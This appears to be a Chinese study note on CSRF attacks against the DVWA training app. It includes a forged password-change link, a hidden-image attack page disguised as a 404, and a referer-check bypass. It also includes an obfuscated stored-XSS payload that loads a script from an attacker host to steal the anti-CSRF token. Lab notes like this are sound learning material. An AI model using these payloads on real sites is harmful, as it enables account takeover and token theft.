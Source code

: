 ## dvwa 学习 csrf

### 参考资料

[DVWA-1.9全级别教程之CSRF](https://www.freebuf.com/articles/web/118352.html)

### csrf 简介

利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账 、改密等）。

CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

### 环境

dvwa 服务器 192.168.255.151:8081

攻击者vps  192.168.1.101

### 攻击步骤

#### 1.编写 payload

```http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#```

受害者点击链接之后页面会跳转

需要注意，**CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用搜狗浏览器点击这个链接，攻击是不会触发的，因为搜狗浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面**

可以使用短链接来隐藏URL（点击短链接，会自动跳转到真实网站）：
如 [百度短链接](https://dwz.cn)

实际攻击场景下只要目标服务器的域名不是ip，是可以生成相应短链接的。

#### 2.构造攻击页面

a) 在公网上传一个攻击页面，诱骗受害者去访问

用隐藏图片的src属性来发起恶意请求

下面是html代码

```

	<img src="http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>
	
	<h1>404<h1>
	
	<h2>file not found.<h2>

```

当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack



b) 服务端验证了 host与 referer，使referer必须包含host

应对：构造文件名为 服务器名

可以将攻击页面命名为192.168.255.151.html ，页面放在攻击者vps上。

c) High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。


由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.255.151中，才有可能完成攻击

```ALTER TABLE guestbook MODIFY name VARCHAR(190);```


	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/g.js');
	document.getElementsByTagName('head')[0].appendChild(b);">

其中，steal.php在 ```https://github.com/leezp/note/blob/master/xss/dvwa-xss/steal.php```

这一步操作和high级别存储型xss一样，如图，获取到token。
![](token.png)


可见csrf要和xss结合使用才能发挥最大效果。  但实际是否会存在一个时间差，获取到token了，如何监控？如何即时诱导用户是以后该思考的问题